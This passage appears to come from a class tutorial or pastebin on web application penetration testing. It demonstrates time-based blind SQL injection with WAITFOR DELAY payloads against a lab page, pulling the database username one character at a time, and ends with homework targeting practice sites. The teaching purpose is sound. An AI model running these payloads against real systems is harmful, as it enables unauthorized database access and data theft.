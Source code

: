Let's go for a quick check to see if it's DBO
http://54.213.252.28/bookdetail.aspx?id=2; IF ((USER)='dbo') WAITFOR DELAY '00:00:10'--
 
Yup, it waited 10 seconds so we know the username is 'dbo' - let's give you the syntax to verify it just for fun.
 
D  - 1st Character
http://54.213.252.28/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),1,1)))=97) WAITFOR DELAY '00:00:10'--  
http://54.213.252.28/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),1,1)))=98) WAITFOR DELAY '00:00:10'--
http://54.213.252.28/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),1,1)))=99) WAITFOR DELAY '00:00:10'--
http://54.213.252.28/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),1,1)))=100) WAITFOR DELAY '00:00:10'--  (Ok, first letter is a 100 which is the letter 'd' - it waited 10 seconds)
 
B - 2nd Character
http://54.213.252.28/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),2,1)))>97) WAITFOR DELAY '00:00:10'--   Ok, good it waited for 10 seconds
http://54.213.252.28/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),2,1)))=98) WAITFOR DELAY '00:00:10'--   Ok, good it waited for 10 seconds
 
O - 3rd Character
http://54.213.252.28/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))>97) WAITFOR DELAY '00:00:10'--   Ok, good it waited for 10 seconds
http://54.213.252.28/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))>115) WAITFOR DELAY '00:00:10'--
http://54.213.252.28/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))>105) WAITFOR DELAY '00:00:10'--      Ok, good it waited for 10 seconds
http://54.213.252.28/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))>110) WAITFOR DELAY '00:00:10'--      Ok, good it waited for 10 seconds
http://54.213.252.28/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))=109) WAITFOR DELAY '00:00:10'--
http://54.213.252.28/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))=110) WAITFOR DELAY '00:00:10'--      
http://54.213.252.28/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))=111) WAITFOR DELAY '00:00:10'--      Ok, good it waited for 10 seconds
 
 


************************ Class Homework ************************

Perform a mock penetration test against http://54.172.112.249 using what you have learned in this pastebin.

You don't need to document it for me, but go through the steps for your own understanding.





************************ Class Challenge ************************

Let's see how you do with someone else's vulnerable website. Your 1st target is: http://zero.webappsecurity.com
 
Here are some sample web app penetration test reports from other companies that you can look at:
https://s3.amazonaws.com/StrategicSec-Files/WebAppSampleReports.zip
 